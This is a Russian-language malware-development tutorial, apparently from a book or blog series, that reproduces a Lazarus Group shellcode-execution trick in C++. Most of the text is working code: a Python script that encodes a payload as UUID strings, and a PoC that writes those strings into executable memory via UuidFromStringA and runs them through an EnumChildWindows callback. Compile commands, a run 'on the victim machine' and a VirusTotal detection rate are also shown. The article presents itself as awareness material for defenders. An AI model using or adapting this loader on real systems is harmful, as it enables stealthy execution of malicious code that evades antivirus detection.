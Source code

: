 \newpage
\subsection{35. Трюки разработки вредоносного ПО. Запуск шелл-кода в стиле Lazarus Group. Пример на C++.}

الرَّحِيمِ الرَّحْمَٰنِ للَّهِ بِسْمِ 

![injection](./images/63/2022-07-22_09-57.png){width="80%"}    

Эта статья является результатом моего собственного исследования ещё одного интересного приёма: запуск полезной нагрузки через `UuidFromStringA` и, например, `EnumChildWindows`.    

### UuidFromStringA

Эта функция преобразует строку в UUID:

```cpp
RPC_STATUS UuidFromStringA(
  RPC_CSTR StringUuid,
  UUID     *Uuid
);
```

Без использования стандартных функций, таких как `memcpy` или `WriteProcessMemory`, эту функцию можно использовать как для декодирования данных, так и для их записи в память.     

Техника выполнения шелл-кода включает следующие шаги:

- Выделение памяти с помощью `VirtualAlloc`    
- Использование `UuidFromStringA` для преобразования UUID-строк в их двоичный формат и сохранения в памяти    
- Использование `EnumChildWindows` (или `EnumDesktopsA`, либо другого подходящего метода) для выполнения ранее загруженной в память полезной нагрузки      

### Практический пример

Рассмотрим практический пример. Этот трюк довольно прост, он схож с [предыдущими](https://cocomelonc.github.io/tutorial/2022/06/27/malware-injection-20.html) приёмами, но с некоторыми изменениями, характерными для Lazarus Group.     

Сначала нам нужен скрипт для преобразования полезной нагрузки в допустимые строки UUID. Например, такой (`payload_uuid.py`):

```python
#!usr/bin/python3

from uuid import UUID
import argparse

parser = argparse.ArgumentParser()
parser.add_argument('-p','--payload', required = True, help = "payload: binary file")
args = vars(parser.parse_args())
pbin = args['payload']

with open(pbin, "rb") as f:
    # читаем 16 байтов из нашего входного бинарного файла
    chunk = f.read(16)
    while chunk:
        # если в блоке менее 16 байтов, дополняем разницу (x90)
        if len(chunk) < 16:
            padding = 16 - len(chunk)
            chunk = chunk + (b"\x90" * padding)
        print(UUID(bytes_le=chunk))
        chunk = f.read(16)
```        

Как обычно, я буду использовать полезную нагрузку с сообщением "meow-meow": `meow.bin`.

Запуск:

```bash
python3 payload_uuid.py -p meow.bin
```
![injection](./images/63/2022-07-22_10-46.png){width="80%"}    

Поскольку теперь у нас есть полезная нагрузка в формате UUID, мы можем создать код доказательства концепции (PoC) для тестирования следующего:

```cpp
#include <windows.h>
#include <rpc.h>
#include <iostream>

#pragma comment(lib, "Rpcrt4.lib")

const char* uuids[] = {
  "e48148fc-fff0-ffff-e8d0-000000415141",
  "56515250-3148-65d2-488b-52603e488b52",
  "8b483e18-2052-483e-8b72-503e480fb74a",
  "c9314d4a-3148-acc0-3c61-7c022c2041c1",
  "01410dc9-e2c1-52ed-4151-3e488b52203e",
  "483c428b-d001-8b3e-8088-0000004885c0",
  "01486f74-50d0-8b3e-4818-3e448b402049",
  "5ce3d001-ff48-3ec9-418b-34884801d64d",
  "3148c931-acc0-c141-c90d-4101c138e075",
  "034c3ef1-244c-4508-39d1-75d6583e448b",
  "01492440-66d0-413e-8b0c-483e448b401c",
  "3ed00149-8b41-8804-4801-d0415841585e",
  "58415a59-5941-5a41-4883-ec204152ffe0",
  "5a594158-483e-128b-e949-ffffff5d49c7",
  "000000c1-3e00-8d48-95fe-0000003e4c8d",
  "00010985-4800-c931-41ba-45835607ffd5",
  "41c93148-f0ba-a2b5-56ff-d54d656f772d",
  "776f656d-0021-5e3d-2e2e-5e3d00909090"
};

int main() {
  int elems = sizeof(uuids) / sizeof(uuids[0]);
  VOID* mem = VirtualAlloc(NULL, 0x100000, 0x00002000 | 0x00001000,
  PAGE_EXECUTE_READWRITE);
  DWORD_PTR hptr = (DWORD_PTR)mem;
  for (int i = 0; i < elems; i++) {
    // printf("[*] Allocating %d of %d uuids\n", i + 1, elems);
    // printf("%s\n", *(uuids+i));
    RPC_CSTR rcp_cstr = (RPC_CSTR)*(uuids+i);
    RPC_STATUS status = UuidFromStringA((RPC_CSTR)rcp_cstr, (UUID*)hptr);
    if (status != RPC_S_OK) {
      printf("[-] UUID convert error\n");
      CloseHandle(mem);
      return -1;
    }
     hptr += 16;
  }

  EnumChildWindows(NULL, (WNDENUMPROC)mem, NULL);
  // EnumDesktopsA(GetProcessWindowStation(), (DESKTOPENUMPROCA)mem, NULL);
  CloseHandle(mem);
  return 0;
}
```

Обратите внимание на функцию `UuidFromStringA`. Как я уже писал ранее, вызов этого API с указателем на память вместо указателя на UUID приведёт к тому, что двоичное представление заданного UUID будет сохранено в памяти.     

Связывая множество API-запросов и передавая корректно сформированные UUID, можно загрузить необходимое содержимое (полезную нагрузку) в выбранную область памяти.   

А затем, в качестве указателя на функцию обратного вызова в `EnumChildWindows`, мы указываем этот участок памяти:   

```cpp
EnumChildWindows(NULL, (WNDENUMPROC)mem, NULL);
```

или другую функцию `EnumDesktopsA`:    

```cpp
EnumDesktopsA(GetProcessWindowStation(), (DESKTOPENUMPROCA)mem, NULL);
```

### Демо

Давайте посмотрим, как всё работает на практике. Компилируем наш "вредонос":    

```bash
x86_64-w64-mingw32-g++ -O2 hack.cpp -o hack.exe \
-I/usr/share/mingw-w64/include/ \
-L/usr/x86_64-w64-mingw32/lib/ -s -ffunction-sections \
-fdata-sections -Wno-write-strings -fno-exceptions \
-fmerge-all-constants -static-libstdc++ -static-libgcc \
-fpermissive -lrpcrt4
```

![injection](./images/63/2022-07-22_10-56.png){width="80%"}    

Запускаем на машине жертвы:    

```powershell
.\hack.exe
```

![injection](./images/63/2022-07-22_10-58.png){width="80%"}    

Чтобы убедиться, что наша полезная нагрузка действительно запущена, можно немного изменить код:

```cpp
printf("[*] Hexdump: ");
for (int i = 0; i < elems*16; i++) {
  printf("%02X ", ((unsigned char*)mem)[i]);
}
```

Затем снова компилируем:   

```bash
x86_64-w64-mingw32-g++ -O2 hack.cpp -o hack.exe \
-I/usr/share/mingw-w64/include/ \
-L/usr/x86_64-w64-mingw32/lib/ -s -ffunction-sections \
-fdata-sections -Wno-write-strings -fno-exceptions \
-fmerge-all-constants -static-libstdc++ -static-libgcc \
-fpermissive -lrpcrt4
```

![injection](./images/63/2022-07-22_11-07.png){width="80%"}    

и снова запускаем:   

```powershell
.\hack.exe
```

![injection](./images/63/2022-07-22_11-09.png){width="80%"}    

Как видно, всё работает идеально! :)    

Загружаем `hack.exe` на VirusTotal:    

![injection](./images/63/2022-07-22_14-59.png){width="80%"}    

**Итак, 6 из 68 антивирусных движков обнаруживают наш файл как вредоносный.**    

[https://www.virustotal.com/gui/file/003e45e65361b09fd8e372d29fbdecfb3462d9202ddf31bf386c728c9cebafa0/detection](https://www.virustotal.com/gui/file/003e45e65361b09fd8e372d29fbdecfb3462d9202ddf31bf386c728c9cebafa0/detection)    

Есть один нюанс. Lazarus Group использует функции `HeapCreate` и `HeapAlloc` вместо:

```cpp
HANDLE hc = HeapCreate(HEAP_CREATE_ENABLE_EXECUTE, 0, 0);
void* mem = HeapAlloc(hc, 0, 0x100000);
```

`HeapAlloc` - это часто используемый API-вызов для выделения памяти в куче.    
Этот API позволяет выделять указанные объемы памяти в куче, в отличие от блоков памяти, полученных с помощью `VirtualAlloc`.
Однако, согласно документации, `HeapAlloc` всё же может вызывать `VirtualAlloc`, если это необходимо.    

Также у него есть преимущество: этот API не выглядит таким подозрительным.    

Кроме того, Lazarus Group использует функцию `EnumSystemLocalesA` для выполнения полезной нагрузки.    

Я надеюсь, что этот пост повысит осведомлённость синих команд об этой интересной технике и добавит ещё одно оружие в арсенал красных команд.    

[nccgroup - RIFT: Analysing a Lazarus Shellcode Execution Method](https://research.nccgroup.com/2021/01/23/rift-analysing-a-lazarus-shellcode-execution-method/)      
[Lazarus Group](https://attack.mitre.org/groups/G0032/)    
[исходный код на github](https://github.com/cocomelonc/meow/tree/master/2022-07-21-malware-tricks-22)    
